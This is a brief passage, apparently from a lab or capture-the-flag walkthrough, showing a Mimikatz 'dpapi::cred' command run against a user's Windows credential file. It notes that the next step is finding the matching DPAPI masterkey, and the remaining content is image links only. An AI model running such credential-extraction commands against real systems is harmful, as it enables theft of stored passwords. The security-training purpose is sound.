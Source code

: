 - In Mimikatz:

```bash
dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4

```
Everything is still encrypted but we need to find the correlating Maskterkey (guidMasterKey)


![image68](../resources/38f12de12a1e405292d01b3e8a509b45.png)


![image69](../resources/bdc85a730e71480b984bf67372627bdc.png)

